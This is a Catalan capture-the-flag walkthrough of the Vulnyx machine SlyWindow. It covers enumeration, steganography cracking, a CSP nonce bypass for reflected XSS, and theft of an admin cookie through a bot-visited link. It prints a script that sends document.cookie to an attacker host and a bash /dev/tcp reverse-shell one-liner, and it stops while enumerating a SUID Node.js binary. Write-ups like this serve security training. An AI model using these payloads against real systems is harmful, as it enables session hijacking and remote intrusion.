






Anàlisi detallada i pas a pas de la màquina SlyWindow (Vulnyx), cobrint tècniques d'esteganografia, explotació de vulnerabilitats XSS, atac TOCTOU, escalada de privilegis i manipulació de biblioteques en sistemes Linux.

## Taula de continguts

## Enumeració

### Escaneig de ports

Iniciem la fase d'enumeració realitzant un escaneig de ports sobre la màquina objectiu, la direcció IP de la qual és `10.0.2.11`.

```bash
nmap -p- -sCV -Pn -vvv -n 10.0.2.11 -oN nmap.txt
```

```text
# Nmap 7.94SVN scan initiated Thu Jul 31 21:35:50 2025 as: /usr/lib/nmap/nmap --privileged -p- -sCV -Pn -vvv -n -oN nmap.txt 10.0.2.11
Nmap scan report for 10.0.2.11
Host is up, received arp-response (0.000088s latency).
Scanned at 2025-07-31 21:35:50 CEST for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:d8:65:cf:d9:7f:21:e9:1b:1e:52:01:a2:79:e7:0e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFM0sytCCMmCQLsUyKqYcm+b/oeUR3op1iNVSBNyz/Wc6mHbe4324fkSNLZlfKj/4cNzsGxqGK+zbKbJ3uMCrl8=
|   256 56:08:db:eb:9c:89:3b:d0:d4:12:9e:de:9c:dc:6a:0f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMQq+hYRvRC1ebeu4dAMDEb+fuuv8VPi/HjBxRKIC8jh
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:5A:9C:A4 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 31 21:35:58 2025 -- 1 IP address (1 host up) scanned in 7.80 seconds
```

S'identifiquen els ports 22 (SSH) i 80 (HTTP) oberts. A continuació, s'empra l'eina whatweb per aprofundir en la informació del servei web exposat.

### Web

```bash
whatweb -v 10.0.2.11
```

```text
WhatWeb report for http://10.0.2.11
Status    : 200 OK
Title     : <None>
IP        : 10.0.2.11
Country   : RESERVED, ZZ

Summary   : Apache[2.4.62], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)]

Detected Plugins:
[ Apache ]
	The Apache HTTP Server Project is an effort to develop and 
	maintain an open-source HTTP server for modern operating 
	systems including UNIX and Windows NT. The goal of this 
	project is to provide a secure, efficient and extensible 
	server that provides HTTP services in sync with the current 
	HTTP standards. 

	Version      : 2.4.62 (from HTTP Server Header)
	Google Dorks: (3)
	Website     : http://httpd.apache.org/

[ HTTPServer ]
	HTTP server header string. This plugin also attempts to 
	identify the operating system from the server header. 

	OS           : Debian Linux
	String       : Apache/2.4.62 (Debian) (from server string)

HTTP Headers:
	HTTP/1.1 200 OK
	Date: Thu, 31 Jul 2025 19:43:38 GMT
	Server: Apache/2.4.62 (Debian)
	Last-Modified: Wed, 30 Jul 2025 17:13:37 GMT
	ETag: "1bb-63b28a5397240-gzip"
	Accept-Ranges: bytes
	Vary: Accept-Encoding
	Content-Encoding: gzip
	Content-Length: 301
	Connection: close
	Content-Type: text/html
```

En accedir al lloc web, observem que la imatge principal no es mostra correctament. No obstant això, en revisar el codi font, identifiquem que l'etiqueta `<base>` està configurada amb el domini `www.slywindow.nyx`.

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <base href="http://www.slywindow.nyx/" />
    <title></title>
  </head>
  <body></body>
</html>
```

Afegim els dominis `www.slywindow.nyx` i `slywindow.nyx` al fitxer `/etc/hosts` per resoldre correctament les peticions HTTP durant la fase d'enumeració.

```bash
# /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
10.0.2.11       slywindow.nyx www.slywindow.nyx
```

Accedim novament al lloc web utilitzant el domini configurat, on es mostra una imatge d'un conill emprant un gat hidràulic per ampliar una finestra.


### Enumeració de subdominis

Emprem `gobuster` en mode vhost per identificar possibles subdominis configurats com a virtualhosts addicionals al servidor.

```bash
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u slywindow.nyx -t 30 --append-domain
```

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://slywindow.nyx
[+] Method:          GET
[+] Threads:         30
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: api.slywindow.nyx Status: 403 [Size: 282]
Progress: 114442 / 114443 (100.00%)
===============================================================
Finished
===============================================================
```

Identifiquem el subdomini `api.slywindow.nyx`, per la qual cosa procedim a incorporar-lo al fitxer `/etc/hosts` per assegurar la seva correcta resolució durant les proves.

```bash
# /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
10.0.2.11       slywindow.nyx www.slywindow.nyx api.slywindow.nyx
```

En accedir a la URL `http://api.slywindow.nyx`, el servidor respon amb un codi `403 Forbidden`, el qual indica que l'accés està restringit.

### Fuzzing d'arxius i endpoints

Realitzem un fuzzing en ambdós dominis utilitzant `gobuster` per identificar endpoints o arxius accessibles.

Al domini `www.slywindow.nyx` descobrim els recursos `/admin.php` i `/index.html`.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://www.slywindow.nyx -x html,php --exclude-length 282
```

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://www.slywindow.nyx
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          282
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 443]
/admin.php            (Status: 200) [Size: 4652]
Progress: 661677 / 661680 (100.00%)
===============================================================
Finished
===============================================================
```

Al domini `api.slywindow.nyx` identifiquem l'endpoint `/api.php`.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://api.slywindow.nyx -x html,php --exclude-length 282
```

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api.slywindow.nyx
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          282
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/api.php              (Status: 405) [Size: 58]
Progress: 661677 / 661680 (100.00%)
===============================================================
Finished
===============================================================
```

## Intrusió

### Esteganografia

Descarreguem la imatge del conill des del domini i l'analitzem amb steghide per verificar si conté informació oculta.

```bash
wget http://www.slywindow.nyx/small-window.jpg && steghide info small-window.jpg
```

```text
"small-window.jpg":
  formato: jpeg
  capacidad: 21,0 KB
¿Intenta informarse sobre los datos adjuntos? (s/n) s
Anotar salvoconducto:
steghide: ¡no pude extraer ningún dato con ese salvoconducto!
```

Mitjançant `steghide` confirmem que la imatge conté 21,0 KB de dades ocultes, però requereix una passphrase per extreure-les. Per obtenir-la, emprem `stegseek` juntament amb el diccionari `rockyou.txt`.

```bash
stegseek ./small-window.jpg /usr/share/wordlists/rockyou.txt
```

En qüestió de segons, aconseguim obtenir la passphrase i procedim a extreure l'arxiu ocult utilitzant aquesta clau.

```text
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "april"
[i] Original filename: "api-key.txt".
[i] Extracting to "small-window.jpg.out".
```

L'arxiu extret conté una API-KEY, la qual probablement serà necessària per interactuar amb el subdomini `api.slywindow.nyx`.

```bash
$ cat small-window.jpg.out
API_KEY=d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79
```

### XSS a www.slywindow.nyx/admin.php

Mitjançant fuzzing identifiquem l'existència de la pàgina `admin.php`, la qual presenta un formulari de validació d'accés.


En aquest formulari, detectem una vulnerabilitat de tipus XSS reflectit al paràmetre `error`, el qual és utilitzat per mostrar missatges quan la validació falla.

```
http://www.slywindow.nyx/admin.php?error=%3Ch1%3EXSS%3C/h1%3E
```

No obstant això, l'execució de codi JavaScript està restringida per la política de Content Security Policy (CSP) configurada a les capçaleres, el qual limita l'explotació directa del XSS.

Procedim a recopilar informació addicional sobre la pàgina del formulari per identificar possibles vectors d'atac alternatius.

```bash
whatweb http://www.slywindow.nyx/admin.php -v
```

```text
WhatWeb report for http://www.slywindow.nyx/admin.php
Status    : 200 OK
Title     : Admin Panel - Login
IP        : 10.0.2.11
Country   : RESERVED, ZZ

Summary   : Apache[2.4.62], Cookies[PHPSESSID], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], PasswordField[password], UncommonHeaders[content-security-policy,x-content-type-options,referrer-policy], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and
        maintain an open-source HTTP server for modern operating
        systems including UNIX and Windows NT. The goal of this
        project is to provide a secure, efficient and extensible
        server that provides HTTP services in sync with the current
        HTTP standards.

        Version      : 2.4.62 (from HTTP Server Header)
        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ Cookies ]
        Display the names of cookies in the HTTP headers. The
        values are not returned to save on space.

        String       : PHPSESSID

[ HTML5 ]
        HTML version 5, detected by the doctype declaration


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to
        identify the operating system from the server header.

        OS           : Debian Linux
        String       : Apache/2.4.62 (Debian) (from server string)

[ PasswordField ]
        find password fields

        String       : password (from field name)

[ UncommonHeaders ]
        Uncommon HTTP server headers. The blacklist includes all
        the standard headers and many non standard but common ones.
        Interesting but fairly common headers should have their own
        plugins, eg. x-powered-by, server and x-aspnet-version.
        Info about headers can be found at www.http-stats.com

        String       : content-security-policy,x-content-type-options,referrer-policy (from headers)

[ X-Frame-Options ]
        This plugin retrieves the X-Frame-Options value from the
        HTTP header. - More Info:
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : SAMEORIGIN

[ X-XSS-Protection ]
        This plugin retrieves the X-XSS-Protection value from the
        HTTP header. - More Info:
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : 1; mode=block

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Thu, 31 Jul 2025 22:31:12 GMT
        Server: Apache/2.4.62 (Debian)
        Set-Cookie: PHPSESSID=1df40qrfntea7bunpmvcgi5caq; path=/
        Expires: Thu, 19 Nov 1981 08:52:00 GMT
        Cache-Control: no-store, no-cache, must-revalidate
        Pragma: no-cache
        Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'; style-src 'self' 'nonce-rOdPWdv1rvK5Wx8Y8ls/BA=='
        X-Frame-Options: SAMEORIGIN
        X-Content-Type-Options: nosniff
        Referrer-Policy: no-referrer
        X-XSS-Protection: 1; mode=block
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 1206
        Connection: close
        Content-Type: text/html; charset=UTF-8
```

Es poden identificar diversos aspectes rellevants: les capçaleres CSP estan configurades amb una política força restrictiva.

```bash
        Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'; style-src 'self' 'nonce-rOdPWdv1rvK5Wx8Y8ls/BA=='
        X-Frame-Options: SAMEORIGIN
        X-Content-Type-Options: nosniff
        Referrer-Policy: no-referrer
        X-XSS-Protection: 1; mode=block
```

A més, es pot observar que la cookie no compta amb la bandera `HttpOnly`, el que permet el seu accés des del costat del client i representa un risc addicional en cas de vulnerabilitats XSS.

Si analitzem detenidament les capçaleres CSP, podem veure que es generen dos valors `nonce` ([The CSP nonce Guide](https://content-security-policy.com/nonce/)), però un d'ells roman constant a cada petició, el que indica que no s'està generant de forma segura.

En executar la següent comanda diverses vegades, es pot comprovar que el primer `nonce` de les capçaleres CSP es repeteix a totes les respostes.

```bash
curl -I http://www.slywindow.nyx/admin.php
```

```
HTTP/1.1 200 OK
Date: Thu, 31 Jul 2025 22:42:53 GMT
Server: Apache/2.4.62 (Debian)
Set-Cookie: PHPSESSID=eab296le2dua5f7la9f6lcp3ti; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'; style-src 'self' 'nonce-9trfCIHuZET9ZSwbFDTXmw=='
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer
X-XSS-Protection: 1; mode=block
Content-Type: text/html; charset=UTF-8
```

En el resultat de la petició anterior, observem que el nonce `'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'` apareix a les capçaleres CSP. Si inspeccionem el codi font de la pàgina `admin.php`, notem que aquest primer nonce no s'utilitza a cap etiqueta `<script>`, mentre que el segon nonce sí s'empra a l'etiqueta `<style>`.



Aquesta mala implementació permet explotar la política CSP per executar JavaScript arbitrari mitjançant un atac XSS.

```text
http://www.slywindow.nyx/admin.php?error=<script nonce="aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx">alert(1)</script>
```

Això serà rellevant en fases posteriors.

### Anàlisi de l'API a api.slywindow.nyx/api.php

En intentar accedir directament a l'endpoint de l'API mitjançant una petició GET, el servidor respon indicant que s'ha d'utilitzar el mètode POST.

```bash
curl http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

Si realitzem la petició utilitzant el mètode POST, el servidor respon indicant que és necessari proporcionar una API KEY.

```bash
curl -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```


Procedim a utilitzar l'API la clau de la qual descobrim prèviament oculta a la imatge del conill.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

El servidor respon indicant que requereix un objecte JSON, per la qual cosa procedim a enviar-li'l:

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```


El servidor ara sol·licita explícitament els camps `message` i `url` al cos de la petició, per la qual cosa procedim a incloure'ls a la sol·licitud.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://www.google.com"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

El missatge de resposta resulta especialment rellevant en aquest punt:


El més rellevant del missatge és que indica que l'administrador visitarà de forma immediata la URL proporcionada.

### Exfiltració de cookies de l'administrador

Per verificar que l'administrador realment visita les URLs proporcionades a través de l'API, configurem un listener amb netcat a la nostra màquina atacant.

```bash
nc -lvp 80
```

i enviem una sol·licitud a l'API incloent una URL que apunti a la IP de la nostra màquina atacant (en aquest cas, 10.0.2.7) des d'un altre terminal per comprovar si l'administrador accedeix a ella.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://10.0.2.7"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

Després d'aproximadament 30 segons, rebem una sol·licitud entrant al nostre listener de netcat, confirmant que l'administrador ha accedit a la URL proporcionada.


Es confirma que l'administrador visita les URLs enviades a través de l'API, encara que únicament ho fa una vegada. Sabent que existeix una vulnerabilitat de XSS a `http://www.slywindow.nyx/admin.php?message=`, i aprofitant un `nonce` insegur a les capçaleres CSP, podem enviar un enllaç maliciós a l'administrador amb l'objectiu de robar la seva cookie.

En primer lloc, és necessari obtenir novament el valor actual del `nonce` insegur de les capçaleres, ja que aquest podria haver canviat des de l'última vegada que el vam capturar.

A continuació, creem un arxiu `index.html` a la nostra màquina atacant que redirigeix a Google, simulant una acció legítima.

```bash
echo '<script>location.href="https://www.google.com";</script>' > index.html
```

A continuació, aixequem un servidor web amb Python a la mateixa carpeta on es troba l'arxiu `index.html` que redirigeix a google.com, amb l'objectiu de camuflar l'exfiltració de cookies.

```bash
python3 -m http.server 80
```

Abans d'atacar l'administrador, provem l'exfiltració de cookies a la nostra pròpia sessió. Per a això, generem l'script maliciós i el codifiquem en URL dins del paràmetre `?error=`.

```javascript
<script nonce="aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx">location.href='//10.0.2.7/?'+encodeURIComponent(document.cookie)</script>
```

Accedim a la següent URL des del nostre navegador; encara que visualment es redirigeix a Google, el nostre servidor web aconsegueix capturar la cookie de la nostra pròpia sessió, validant així l'exfiltració.

```text
http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E
```


Amb l'enllaç maliciós llest, procedim a utilitzar l'API per enviar la URL a l'administrador i així intentar exfiltrar la seva cookie de la pàgina `http://www.slywindow.nyx/admin.php`.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

En menys de 30 segons, el nostre servidor rep la cookie de sessió de l'administrador, confirmant l'exfiltració exitosa.


Accedim a la URL `http://www.slywindow.nyx/admin.php`, substituïm la cookie de sessió al navegador per la de l'administrador prèviament exfiltrada i recarreguem la pàgina. D'aquesta manera, obtenim accés al `Administration Panel`.



### Execució remota

Des del panell d'administració és possible executar diversos comandaments predefinits a través d'un menú desplegable, el que ens permet recopilar informació rellevant del servidor. Analitzant el tràfic amb Burp Suite, identifiquem la petició generada en utilitzar la funcionalitat `Find Files`. Aprofitant aquesta funcionalitat, aconseguim obtenir execució remota de comandaments (RCE) en injectar una càrrega maliciosa al paràmetre `search_location`.


A la màquina atacant, obrim un listener amb netcat al port 447 a l'espera de la connexió inversa.

```bash
nc -lvnp 447
```

Generem una reverse shell amb la IP de la nostra màquina atacant, la codifiquem en URL i la injectem al paràmetre `search_location`, utilitzant la sintaxi adequada per aconseguir l'execució remota de comandaments.

```bash
bash -c 'bash -i >& /dev/tcp/10.0.2.7/447 0>&1'
```

Obtenim accés a una shell interactiva al servidor objectiu.


## Moviment lateral a l'usuari tocu

Estabilitzem la shell per facilitar el seu ús i enumerem els usuaris presents al sistema, identificant `tocu` i `root`.

```bash
www-data@slywindow:/var/www/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
tocu:x:1000:1000:tocu,,,:/home/tocu:/bin/bash
```

Enumerem els arxius amb el bit SUID habilitat per identificar possibles vectors d'escalada de privilegis.

```bash
find / -perm -4000 2> /dev/null
```

```bash
www-data@slywindow:/dev/shm$ find / -perm -4000 2> /dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/opt/backup/backup_utility
/opt/loginandvisit/tocunode
```

Identifiquem dos binaris potencialment interessants. Analitzem ambdós per determinar la seva funcionalitat: no disposem de permisos d'execució sobre `/opt/backup/backup_utility`, però sí podem executar `/opt/loginandvisit/tocunode`.

```bash
www-data@slywindow:/dev/shm$ ls -lh /opt/loginandvisit/tocunode
-rwsr-sr-x 1 tocu tocu 116M Jul 30 20:44 /opt/loginandvisit/tocunode
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode  
Welcome to Node.js v22.17.1.
Type ".help" for more information.
> 
